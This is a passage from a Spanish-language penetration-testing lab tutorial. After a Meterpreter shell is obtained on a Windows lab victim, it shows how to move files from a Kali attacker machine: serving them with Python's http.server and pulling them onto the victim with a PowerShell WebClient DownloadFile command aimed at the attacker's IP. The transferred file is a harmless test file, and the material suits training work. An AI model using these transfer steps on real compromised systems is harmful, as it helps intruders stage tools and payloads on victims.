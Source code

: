 Ya obtendremos la `shell`, ahora vamos a poner en practica la transferencia de archivos por la `red`.

Antes para no tener el `prompt` de `meterpreter` vamos a utilizar la `shell` de `Windows` poniendo el comando `shell` y veremos esto:

```
meterpreter > shell
Process 5648 created.
Channel 1 created.
Microsoft Windows [Versi�n 10.0.19045.3803]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\empleado2\Desktop>
```

Ahora en `kali` vamos a crear un directorio donde vayan a estar los ficheros que queremos transferir:

```shell
mkdir transfer
cd transfer/
echo "texto de prueba" > test.txt
```

### Python Server

Ahora la primera forma de transferir un archivo seria utilizando `python` creando un servidor del mismo de forma temporal y pasarnoslo a traves de la `red`.

> Python2

```
python2 -m SimpleHTTPServer
```

> Python3

```
python3 -m http.server
```

Si seguidamente le indicamos un numero estaremos especificando el puerto en el que queremos abrir el servidor, pero si lo dejamos por defecto se abrira en el puerto `8000`, lo mismo para el `python2`.

Ahora teniendo el servidor abierto en la misma `red` que la maquina victima, si nos vamos al `WS02` con interfaz grafica, abriremos un `PowerShell` y ejecutaremos el siguiente comando:

```powershell
(New-Object System.NET.WebClient).DownloadFile('http://192.168.5.205:8000/test.txt', 'C:\Users\empleado2\Desktop\test.txt')
```

Veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
